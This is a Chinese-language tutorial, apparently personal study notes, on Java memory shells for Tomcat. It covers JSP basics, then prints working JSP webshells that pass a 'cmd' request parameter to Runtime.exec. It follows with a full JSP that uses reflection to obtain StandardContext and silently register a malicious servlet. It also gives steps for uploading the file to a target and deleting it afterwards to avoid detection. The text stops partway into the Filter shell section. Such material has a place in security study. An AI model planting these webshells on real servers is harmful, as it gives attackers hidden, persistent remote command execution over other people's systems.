# Java内存马学习

# JSP 基础

## 什么是JSP

JSP（Java Server Pages），是Java的一种动态网页技术。在早期Java的开发技术中，Java程序员如果想要向浏览器输出一些数据，就必须得手动`println`一行行的HTML代码。为了解决这一繁琐的问题，Java开发了JSP技术。

JSP可以看作一个Java Servlet，主要用于实现Java web应用程序的用户界面部分。网页开发者们通过结合HTML代码、XHTML代码、XML元素以及嵌入JSP操作和命令来编写JSP。

当第一次访问JSP页面时，Tomcat服务器会将JSP页面翻译成一个java文件，并将其编译为.class文件。JSP通过网页表单获取用户输入数据、访问数据库及其他数据源，然后动态地创建网页。

---

## JSP 环境的搭建

idea新建一个项目，选择jakarta EE，注意应用程序服务器选择tomcat

注意：这里用tomcat10



版本选择Jakarta EE 10



然后在模块里配置web



在pom.xml引入jsp api的依赖，否则代码会标红，但是也能正常运行

```
        <dependency>
            <groupId>jakarta.servlet.jsp</groupId>
            <artifactId>jakarta.servlet.jsp-api</artifactId>
            <version>3.1.1</version>
            <scope>provided</scope>
        </dependency>
```

然后在webapp下自己写一个1.jsp

```
<html>
<body>
<h2>Hello World!!!</h2>
<% out.println("GoodBye!"); %>
</body>
</html>
```

启动tomcat，访问1.jsp，可以看到成功执行



---

## Jsp语法

### 脚本程序

脚本程序可以包含任意量的Java语句、变量、方法或表达式，只要它们在脚本语言中是有效的。脚本程序的格式如下

```
<% 代码片段 %>
```

下面是使用示例

```
<html>  
<body>  
<h2>Hello World!!!</h2>  
<% out.println("GoodBye!"); %>  
</body>  
</html
```

---

### JSP声明

一个声明语句可以声明一个或多个变量、方法，供后面的 Java 代码使用。JSP 声明语句格式如下

```
<%! 声明  %>
```

同样等价于下面的XML语句

```
<jsp:declaration>   
代码片段
</jsp:declaration>
```

下面是使用示例

```
<html>
<body>
<h2>Hello World!!!</h2>
<%! String s= "GoodBye!"; %>
<% out.println(s); %>
</body>
</html>
```

在脚本里面也是可以直接进行声明

```
<%  
    int i = 3;  
%>
```

---

### JSP 表达式

```
<%= 表达式 %>
```

等价于下面的XML表达式

```
<jsp:expression>   表达式</jsp:expression>
```

使用示例

```
<html>
<body>
<h2>Hello World!!!</h2>
<p><% String name = "Drunkbaby"; %>username:<%=name%></p>
</body>
</html>
```

相当于直接打印输出

---

### JSP 指令

JSP指令用来设置与整个JSP页面相关的属性。下面有三种JSP指令



比如我们能通过page指令来设置jsp页面的编码格式

```
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
```

回显是一样的，因为 JSP 属于模板引擎

---

### JSP 注释

格式如下

```
<%-- 注释内容 --%>
```

---

### JSP内置对象

JSP有九大内置对象，他们能够在客户端和服务器端交互的过程中分别完成不同的功能。其特点如下

- 由 JSP 规范提供，不用编写者实例化
- 通过 Web 容器实现和管理
- 所有 JSP 页面均可使用
- 只有在脚本元素的表达式或代码段中才能使用

| 对 象                                                      | 类型                                   | 说 明                                                        |
| ---------------------------------------------------------- | -------------------------------------- | ------------------------------------------------------------ |
| [request](https://drun1baby.top/jsp2/request.html)         | javax.servlet.http.HttpServletRequest  | 获取用户请求信息                                             |
| [response](https://drun1baby.top/jsp2/response.html)       | javax.servlet.http.HttpServletResponse | 响应客户端请求，并将处理信息返回到客户端                     |
| [out](https://drun1baby.top/jsp2/out.html)                 | javax.servlet.jsp.JspWriter            | 输出内容到 HTML 中                                           |
| [session](https://drun1baby.top/jsp2/session.html)         | javax.servlet.http.HttpSession         | 用来保存用户信息                                             |
| [application](https://drun1baby.top/jsp2/application.html) | javax.servlet.ServletContext           | 所有用户共享信息                                             |
| [config](https://drun1baby.top/jsp2/config.html)           | javax.servlet.ServletConfig            | 这是一个 Servlet 配置对象，用于 Servlet 和页面的初始化参数   |
| [pageContext](https://drun1baby.top/jsp2/pagecontext.html) | javax.servlet.jsp.PageContext          | JSP 的页面容器，用于访问 page、request、application 和 session 的属性 |
| [page](https://drun1baby.top/jsp2/page_object.html)        | javax.servlet.jsp.HttpJspPage          | 类似于 Java 类的 this 关键字，表示当前 JSP 页面              |
| [exception](https://drun1baby.top/jsp2/page.html)          | java.lang.Throwable                    | 该对象用于处理 JSP 文件执行时发生的错误和异常；只有在 JSP 页面的 page 指令中指定 isErrorPage 的取值 true 时，才可以在本页面使用 exception 对象。 |

---

### 传统JSP木马

最简单的一句话木马，无回显，适合反弹shell

```
<% 

	Runtime.getRuntime().exec(request.getParameter("cmd"));

%>
```




带回显的JSP木马

```
<% if(request.getParameter("cmd")!=null){
    java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
    int a = -1;
    byte[] b = new byte[2048];
    out.print("<pre>");
    while((a=in.read(b))!=-1){
        out.print(new String(b));
    }
    out.print("</pre>");
}
 
%>
```

但是传统的JSP木马特征性强，且需要文件落地，容易被查杀

因此现在出现了内存马技术。Java内存马又称”无文件马”，相较于传统的JSP木马，其最大的特点就是无文件落地，存在于内存之中，隐蔽性强。

---

# 内存马的原理

内存马是一种将**恶意代码**直接**注入到应用程序**运行时**内存**中的技术手段。与传统的基于文件的WebShell不同，内存马不依赖于磁盘上的任何持久化存储，而是利用**Java反射机制**或**动态编译功能**，**在内存中创建并执行恶意逻辑。**

这种方式不仅能够绕过多大多数基于文件扫描的安全防护措施，而且由于其高度的灵活性和隐蔽性，使得一旦成功植入，很难被发现和清除。


# 内存马的类型和常见利用

1. 动态注册 Servlet/Filter/Listener（使用 servlet-api 的具体实现）
2. 动态注册 Interceptor/Controller（使用框架如 Spring/Struts2）
3. 动态注册中间件实现（例如 Tomcat 的 Pipeline & Valve）
4. 使用 Java Agent 技术写入字节码


- **利用Java Web组件：动态添加恶意组件，如Servlet、Filter、Listener等。在Spring框架下就是Controller、Intercepter。**
- **修改字节码：利用Java的Instrument机制，动态注入Agent，在Java内存中动态修改字节码，在HTTP请求执行路径中的类中添加恶意代码，可以实现根据请求的参数执行任意代码。**


---

# 常见注入方式

这里讨论作为攻击方常见的注入方式，修改目标Web应用源码或是直接新增一个后门文件这种方式不作讨论。

- 上传jsp文件，在jsp脚本中执行Java代码完成注入
- 上传agent.jar包，修改特定jvm进程的web应用字节码完成注入
- 存在jndi漏洞，通过jndi使目标服务器攻击方准备好的注入程序
- 存在反序列化漏洞，通过Java反序列化入口执行准备好的注入程序


---

# Servlet-API类

## Servlet内存马

Servlet内存马是通过动态注册Servlet来实现的一种内存攻击手段。在Java Web应用中，Servlet作为处理客户端请求的核心组件之一，能够直接处理HTTP请求并返回响应。攻击者利用这一点，通过程序化地向Web容器（如Tomcat）在运行时注册恶意的Servlet对象，使得该Servlet能够在没有实际文件存在的情况下执行恶意程序。

---

### Servlet装载流程

**1、自己写一个Servlet**

```
package com.example.memshell;

import java.io.*;

import jakarta.servlet.http.*;

public class MyServlet extends HttpServlet {
    public void doGet(HttpServletRequest request, HttpServletResponse response) throws IOException {
        response.setContentType("text/html");
        PrintWriter out = response.getWriter();
        out.println("hello world");
    }
}
```

**2、在web.xml定义servlet（servlet名称和类的全路径）和servlet-mapping（servlet和对应的uri）**

```
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
         version="4.0">
    <servlet>
        <servlet-name>MyServlet</servlet-name>
        <servlet-class>com.example.memshell.MyServlet</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>MyServlet</servlet-name>
        <url-pattern>/my</url-pattern>
    </servlet-mapping>
</web-app>
```

我们在配置文件里将路径映射到/my路径下

只需要在浏览器访问对应路径即可访问到我们写的servlet


**3、tomcat的加载部分**

加载部分在在ContextConfig#configureContext(WebXml webxml)部分。

这个类来自tomcat-catalina，至于版本，和tomcat运行时环境版本保持一致

```
 <dependency>
      <groupId>org.apache.tomcat</groupId>
      <artifactId>tomcat-catalina</artifactId>
      <version>10.1.60</version>
  </dependency>
```

双击shfit打开**随处搜索 / Search Everywhere**功能->选择文件->选择所有位置

找到这个类



然后继续分析ContextConfig#configureContext(WebXml webxml)部分

在此打断点，然后调试



观察入参的webxml实参变量，其中就包含我们在web.xml中定义的MyServlet和映射路径信息。

分别是webxml.servlets和webxml.servletMappings



然后就是注意函数下的这两个for循环



第一个for循环主要是处理servlet的循环，创建wrapper，可以理解为servlet的一个包装类

**用于存放servlet的全类名、servlet对象和servlet名称**


---



第二个for循环主要是遍历取出servletMapping并进行添加映射关系

这里的entry.get方法取出来的key就是路径，value就是servlet的名字


---

一个是处理servlet的循环，一个是处理url映射关系的循环。****

关键的两行添加进容器的代码，分别是

```
context.addChild(wrapper);
```

```
context.addServletMappingDecoded(entry.getKey(), entry.getValue());
```

一个是向容器上下文中添加我们的Servlet，一个是向容器声明Servlet和URL的映射关系。

**这里都用到了context这个对象。而这个context对象是什么**

**能够看到此处的context是StandardContext**




那我们怎么样获取这个standardcontext

我们可以通过**HttpServletRequest.getServletContext.context.context**来获取这个**StandardContext**

**在MyServlet的doGet方法处打断点，记得把之前上面configureContext处的断点取消，然后恢复执行访问/my**

这时就传来了HttpServletRequest对象，

**重点就是这三步**

1. **在调试面板里通过调用request.getServletContext()得到ServletContext**
2. **然后在ServletContext里找到ApplicationContext**
3. **最后在ApplicationContext里找到StandardContext**




所以我们拿到StandardContext之后就能执行前面那两步

添加我们的Servlet，然后向容器声明Servlet和URL的映射关系

---

### 实现机制

1. **创建恶意Servlet类**
2. **获取context：StandardContext（通过反射）**
3. **从context获取Wrapper对象**
4. **将自己的Servlet封装进wrapper对象**
5. **将wrapper添加到上下文并设置映射路径**

---

### 示例代码

原理其实并不复杂：

**借助 Java 反射机制突破访问控制，逐层获取 Tomcat 内部的 `StandardContext` 对象，然后像正常注册 Servlet 一样，动态地将恶意 Servlet 添加到容器中。**

```
<%@ page import="java.io.IOException" %>
<%@ page import="java.lang.reflect.*" %>
<%@ page import="org.apache.catalina.core.*" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%!
  // 定义一个恶意servlet
  public class MemServlet extends HttpServlet {
    @Override
    public void doGet(HttpServletRequest request, HttpServletResponse response) throws IOException {
      Runtime.getRuntime().exec("calc");
    }
  }
%>
<%
  // 从request中获取servletContext
  ServletContext servletContext = request.getServletContext();

  // 从servletContext中获取applicationContext
  Field applicationContextField = servletContext.getClass().getDeclaredField("context");
  applicationContextField.setAccessible(true);
  ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(servletContext);
  // 从applicationContext中获取standardContext
  Field standardContextField = applicationContext.getClass().getDeclaredField("context");
  standardContextField.setAccessible(true);
  StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);

  // 从context获取Wrapper对象
  Wrapper wrapper = standardContext.createWrapper();

  // 将自己的Servlet封装进wrapper对象
  wrapper.setName("memshell");
  wrapper.setServletClass(MemServlet.class.getName());
  wrapper.setServlet(new MemServlet());

  // 将wrapper添加到上下文并设置映射路径
  standardContext.addChild(wrapper);
  standardContext.addServletMappingDecoded("/mem", "memshell");
%>
```

---

### 触发步骤

1. **上传jsp木马至目标服务器**
2. **访问上传的jsp**
3. **访问定义的恶意servlet映射路径，演示的是/memshell**
4. **（可选）删除.jsp文件**

---

## Filter内存马

Filter，是过滤器，在请求到达Servlet前对请求进行过滤和处理。



如图，请求会先到达Filter，最后再传递给Servlet。

### 尝试写一个filter

先定义一个Filter试试

```
package com.example.memshell;

import jakarta.servlet.FilterChain;
import jakarta.servlet.ServletException;
import jakarta.servlet.http.HttpFilter;
import jakarta.servlet.http.HttpServletRequest;
import jakarta.servlet.http.HttpServletResponse;

import java.io.IOException;

public class MyFilter extends HttpFilter {
    @Override
    protected void doFilter(HttpServletRequest req, HttpServletResponse res, FilterChain chain) throws IOException, ServletException {
        String cmd = req.getParameter("cmd");
        if (cmd!=null){
            res.getWriter().println("自定义响应");
        }
        super.doFilter(req, res, chain);
    }
}
```

再在web.xml中声明Filter并配置拦截规则

```
    <filter>
        <filter-name>MyFilter</filter-name>
        <filter-class>com.example.memshell.MyFilter</filter-class>
    </filter>
    <filter-mapping>
        <filter-name>MyFilter</filter-name>
        <url-pattern>/*</url-pattern>
    </filter-mapping>
```

如何在运行时将Filter添加到tomcat中

### Filter注册流程

流程大概审一遍就行，具体这里就不放了

**流程图：**

